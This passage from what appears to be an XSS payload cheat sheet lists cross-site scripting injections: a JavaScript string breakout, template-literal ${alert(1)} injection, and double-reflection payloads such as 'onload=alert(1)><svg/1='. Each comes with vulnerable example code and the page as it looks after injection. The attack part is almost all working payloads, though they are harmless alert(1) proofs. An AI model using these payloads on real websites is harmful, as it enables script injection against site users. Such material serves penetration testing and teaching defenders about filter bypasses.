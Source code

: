 * Example source code
```html
<script>
    var greeting;
    var time = 1;
    if (time < 10) {
    test = 'REFLECTED_HERE';
  }
</script>
```

* After input the payload
```html
<script>
    var test;
    var time = 1;
    if (time < 10) {
    test = ''}alert(1);{'';
  }
</script>
```

> Payload number 2 uses when quote escaped by backslash

11. Use when input lands inside backticks delimited strings
```html
${alert(1)}
```

* Example source code
```html
<script>
    var dapos = `REFLECTED_HERE`;
</script>
```

* After input the payload
```html
<script>
    var dapos = `${alert(1)}`;
</script>
```

12. Uses when there is multiple reflections on same page. (Double Reflection)
```html
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```

* After input the payload
```html
<!DOCTYPE html>
<html>
<body>
'onload=alert(1)><svg/1='
[...]
'onload=alert(1)><svg/1='
</body>
</html>
```

